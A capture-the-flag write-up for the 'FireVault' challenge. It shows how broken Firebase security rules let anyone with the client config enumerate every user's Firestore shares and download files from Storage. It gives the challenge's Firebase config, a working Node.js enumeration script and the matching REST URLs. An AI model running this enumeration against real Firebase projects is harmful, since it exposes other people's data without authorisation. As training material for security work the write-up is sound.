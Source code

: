 # FireVault - Writeup

This challenge requires us to abuse broken security rules protecting Firebase Firestore and Firebase Storage.

After playing around with the app a bit, it should be pretty clear that the flag is going to be located in some share somewhere.

We can query firestore and storage via the javascript SDK. If we dig around in the client source via chrome debugger we will be able to find the firebase config, which is required by the client side javascript sdk.

```js
{
  apiKey: "AIzaSyAHI0WKAEz6V_LXjQEDy7jaPG5sVN0UYss",
  authDomain: "firevault-1a5bc.firebaseapp.com",
  projectId: "firevault-1a5bc",
  storageBucket: "firevault-1a5bc.appspot.com",
  messagingSenderId: "459820124037",
  appId: "1:459820124037:web:6c173f913aac55394ca6ec",
  measurementId: "G-5RT5JH07YK",
}
```

We can then use this config via the SDK to write an enumeration script and retrieve the flag.

This solve script was written by Jesse. My previous one stopped working for some reason, you can find it in `solve/old_solve.js`. I think Google disallowed usage of the admin api with normal client credentials. Someone let me know if you know why!

```js
const { initializeApp  } = require('firebase/app');
const { getFirestore, collection, getDocs  } = require('firebase/firestore');

const firebaseConfig ={
    apiKey: 'AIzaSyAHI0WKAEz6V_LXjQEDy7jaPG5sVN0UYss',
    authDomain: 'firevault-1a5bc.firebaseapp.com',
    projectId: 'firevault-1a5bc',
    storageBucket: 'firevault-1a5bc.appspot.com',
    messagingSenderId: '459820124037',
    appId: '1:459820124037:web:6c173f913aac55394ca6ec',
    measurementId: 'G-5RT5JH07YK'
};

const filePath = "https://firebasestorage.googleapis.com/v0/b/firevault-1a5bc.appspot.com/o/"

const app = initializeApp(firebaseConfig)

const db = getFirestore(app);


async function enumUsers(db) {
    const userCol = collection(db, 'users');
    const userSnapshots = await getDocs(userCol);
    userSnapshots.forEach((snap) => {
        enumShares(db, snap.id)
    })
}

async function enumShares(db, id) {
    const shareCol = collection(db, `users/${id}/shares`);
    const shareSnapshots = await getDocs(shareCol);
    const shareList = shareSnapshots.docs.map(doc => doc.data());
    console.log("Files in share for user ID: " + id)
    for(let i = 0; i < shareList.length; i++) {
        if ("files" in shareList[i]) {
            for(let j = 0; j < shareList[i]["files"].length; j++) {
                console.log(filePath + encodeURIComponent(shareList[i]["files"][j].path) + "?alt=media")
            }
        }
    }
}

enumUsers(db)
```

Alernatively this could be done solely via a brower by visiting the following urls and looking around.
You would be able to find these urls by either reading the firebase docs or making your own free firebase project and looking around.

* List admin shares (figure out that there is a /shares collection)

  https://content-firestore.googleapis.com/v1beta1/projects/firevault-1a5bc/databases/(default)/documents/users/

* Show the metadata for a particular user:

  https://content-firestore.googleapis.com/v1beta1/projects/firevault-1a5bc/databases/(default)/documents/users/{uid}

* List the shares of a particular user:

  https://content-firestore.googleapis.com/v1beta1/projects/firevault-1a5bc/databases/(default)/documents/users/{uid}/shares

* List the metadata for a specific share:

  https://content-firestore.googleapis.com/v1beta1/projects/firevault-1a5bc/databases/(default)/documents/users/{uid}/shares/{shareid}

* Spot the file path for the flag in firebase storage from the first user

* Download the flag from storage

  https://firebasestorage.googleapis.com/v0/b/firevault-1a5bc.appspot.com/o/87EYqlu85vX2dUHfwmlkFFOVMQv1%2Fflag.txt?alt=media
